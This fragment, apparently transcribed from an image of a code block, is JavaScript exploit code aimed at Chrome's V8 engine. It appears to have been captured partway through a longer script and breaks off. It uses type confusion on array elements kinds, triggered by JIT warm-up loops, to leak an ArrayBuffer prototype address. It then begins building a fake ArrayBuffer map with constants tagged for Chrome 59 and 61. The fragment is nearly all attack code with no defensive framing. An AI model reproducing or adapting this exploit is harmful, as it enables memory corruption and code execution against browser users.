 ```
    for(var i = 0;i < intarr.length;i = i+2){
        var re = d2u(intarr[i+1],intarr[i]);
        floatarr[j] = re;
        j++;
    }
}
function change_elements_kind_array(a){
	a[0] = Array;
}
optimizer3 = new Array({});
optimizer3.x3 = {};
change_elements_kind_array(optimizer3);
map_manipulator3 = new Array(1.1,2.2);
map_manipulator3.x3 = 0x123;
change_elements_kind_array(map_manipulator3);
map_manipulator3.x3 = {};
evil3 = new Array(1.1,2.2);
evil3.x3 = {};
for(var i = 0;i<0x100000;i++){
	change_elements_kind_array(optimizer3);
}
/******************************* step 1    read ArrayBuffer __proto__ address   ***************************************/
function change_elements_kind_parameter(a,obj){
	arguments;
	a[0] = obj;
}
optimizer4 = new Array({});
optimizer4.x4 = {};
change_elements_kind_parameter(optimizer4);
map_manipulator4 = new Array(1.1,2.2);
map_manipulator4.x4 = 0x123;
change_elements_kind_parameter(map_manipulator4);
map_manipulator4.x4 = {};
evil4 = new Array(1.1,2.2);
evil4.x4 = {};
for(var i = 0;i<0x100000;i++){
	change_elements_kind_parameter(optimizer4,arraybuffer.__proto__);
}
function e4(){
	return evil4[0];
}
for(var i = 0;i<0x100000;i++){
	e4();
}
change_elements_kind_parameter(evil4,arraybuffer.__proto__);
ab_proto_addr = u2d(e4());
var nop = 0xdaba0000;
var ab_map_obj = [
	nop,nop,
	0x1f000008,0x000900c3,   //chrome 59
	//0x0d00000a,0x000900c4,  //chrome 61
	0x082003ff,0x0,
	nop,nop,   // use ut32.prototype replace it
	nop,nop,0x0,0x0
]
ab_constructor_addr = ab_proto_addr - 0x70;
ab_map_obj[0x6] = ab_proto_addr & 0xffffffff;
ab_map_obj[0x7] = ab_proto_addr / 0x100000000;
ab_map_obj[0x8] = ab_constructor_addr & 0xffffffff;
ab_map_obj[0x9] = ab_constructor_addr / 0x100000000;
float_arr = [];
gc();
```